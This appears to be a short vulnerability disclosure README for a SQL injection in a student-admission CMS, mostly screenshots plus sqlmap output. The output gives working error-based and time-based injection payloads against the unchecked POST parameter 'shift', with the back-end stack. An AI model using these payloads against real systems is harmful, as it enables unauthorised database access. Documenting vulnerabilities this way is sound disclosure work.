 # Student-Admission CMS Sqlinjection

### Sqlinjection Code
![image](https://user-images.githubusercontent.com/72059221/182750831-21ba3a4b-d99f-484b-813f-0d175d044ce4.png)
![image](https://user-images.githubusercontent.com/72059221/182750900-d34a0889-3f8b-4a3b-85a7-fddb16385258.png)


![image](https://user-images.githubusercontent.com/72059221/182751071-f90c74c8-2632-4838-ac0d-a7cf4d0ebac0.png)

#### No Check Shift  

![image](https://user-images.githubusercontent.com/72059221/182751180-d03a9653-d4b1-4dfd-b0a9-d5535f98f6bf.png)


#### Sqlmap Attack
![image](https://user-images.githubusercontent.com/72059221/182750935-56fa5112-fdcd-4bb5-ba7e-762cffaaf506.png)

```
POST parameter 'shift' is vulnerable. Do you want to keep testing the others (if any)? [y/N]

sqlmap identified the following injection point(s) with a total of 1581 HTTP(s) requests:
---
Parameter: shift (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: sname=bbb&gname=aaa&contact=1&email=1@11.com&address=111111&class=1&shift=1 AND GTID_SUBSET(CONCAT(0x717a766b71,(SELECT (ELT(3656=3656,1))),0x7162766a71),3656)&gender=female&blgroup=abc&division=1&submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sname=bbb&gname=aaa&contact=1&email=1@11.com&address=111111&class=1&shift=1 AND (SELECT 2934 FROM (SELECT(SLEEP(5)))GVhT)&gender=female&blgroup=abc&division=1&submit=Submit
---
[09:45:36] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.39, PHP 5.6.9
back-end DBMS: MySQL >= 5.6
```
